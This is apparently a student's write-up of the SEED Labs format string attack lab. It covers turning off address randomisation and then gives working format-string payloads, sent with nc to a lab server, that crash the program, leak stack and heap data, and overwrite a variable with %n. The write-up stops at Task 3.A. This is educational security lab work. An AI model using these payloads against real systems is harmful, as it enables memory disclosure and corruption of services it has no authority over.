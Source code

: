 ## [Format String Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Software/Format_String/)

#### 2 Environment Setup

## 2.1 Turning Off Countermeasures

```sh
sudo sysctl -w kernel.randomize_va_space=0
```

![](image.png)

## 2.2 The Vulnerable Program

**Compilation and Installation.**

![](image-1.png)

## 2.3 Container Setup and Commands

![](image-2.png)

![](image-3.png)

#### 3 Task 1: Crashing the Program

```sh
echo "%s%s%s%s%s%s" | nc 10.9.0.5 9090
```

![](image-4.png)

Since the server program did not print `Returned properly`, we can understand that the program has crashed.

There may be null pointers, addresses pointing to protected memory, or virtual addresses that are mapped to physical memory. When a program tries to get data from an invalid address, it will crash.

#### 4 Task 2: Printing Out the Server Program’s Memory

## Task 2.A: Stack Data

- How many %x format specifiers do you need so you can get the server program to print out the first four bytes of your input?

```sh
python3 -c 's = "TASK2A-" + "%x " * 11 + "%s\n";print(s)' | nc 10.9.0.5 9090
```

By trial and error, we observe that after putting 11 `%x`, the next `%s` is having the entered user input.

![](image-5.png)

## Task 2.B: Heap Data

From the server printout, we get the address of the secret message string as `0x080b4008`. The address is placed on the stack (the buffer input), with the least significant byte stored in the highest address. Then, we place `63` `%x`s and finally use the `%s` to print out the current position of the `va_list` pointer.

```sh
python3 -c 's = "\x08\x40\x0b\x08" + "%x " * 63 + "%s\n";print(s)' | nc 10.9.0.5 9090
```

![](image-6.png)

#### 5 Task 3: Modifying the Server Program’s Memory

## Task 3.A: Change the value to a different value.

From the server printout, we get the address of the target variable as `0x080e5068`. Similar to the previous task, we place this address in the initial portion of the stack. Then, instead of printing the value of the current position of the `va_list` pointer, we replace the `%s` with `%n`, so that the number of characters printed so far by the `printf` statement would be updated.

```sh
python3 -c 's = "\x68\x50\x0e\x08" + "%x " * 63 + "%n\n";print(s)' | nc 10.9.0.5 9090
```

![](image-7.png)
